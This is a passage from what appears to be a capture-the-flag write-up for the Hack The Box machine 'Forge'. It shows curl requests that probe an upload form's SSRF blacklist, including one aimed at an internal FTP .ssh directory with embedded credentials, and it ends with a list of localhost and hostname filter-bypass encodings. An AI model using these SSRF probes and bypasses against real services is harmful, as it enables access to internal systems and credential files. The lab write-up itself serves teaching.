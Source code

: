```
```

I’ll work with that as a `curl` request, piping into `grep` to quickly see if it’s triggered the blacklist:

```

oxdf@hacky$ curl -s -d 'url=http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/&remote=1' http://forge.htb/upload | grep blacklisted
            <strong>URL contains a blacklisted address!</strong>

```

My first theory is that “admin” might be triggering it. I know I need to start with “http://” or it will return “Invalid Protocol”. So I’ll try `http://admin` to see if it triggers. It doesn’t, but `http://admin.forge.htb` does:

```

oxdf@hacky$ curl -s -d 'url=http://admin' -d 'remote=1' http://forge.htb/upload | grep blacklisted
oxdf@hacky$ curl -s -d 'url=http://admin.forge.htb' -d 'remote=1' http://forge.htb/upload | grep blacklisted
            <strong>URL contains a blacklisted address!</strong>

```

In fact, just “forge.htb” seem to trigger it:

```

oxdf@hacky$ curl -s -d 'url=http://forge.htb&remote=1' http://forge.htb/upload | grep blacklisted
            <strong>URL contains a blacklisted address!</strong>

```

Similar steps show that “127.0.0.1” and “0.0.0.0” are also blocked.

#### Bypassing

I came up with a short list of potential bypasses, as well as the three known blocked terms:

```

forge.htb
fOrge.htb
fOrge
forge.HTB
127.0.0.1
127.0.0.2
127.1
0177.0.0.01
0x7f.0.0.0x1
0.0.0.0
0
user:heightofsecurity123!@
localhost
loCalhost

```
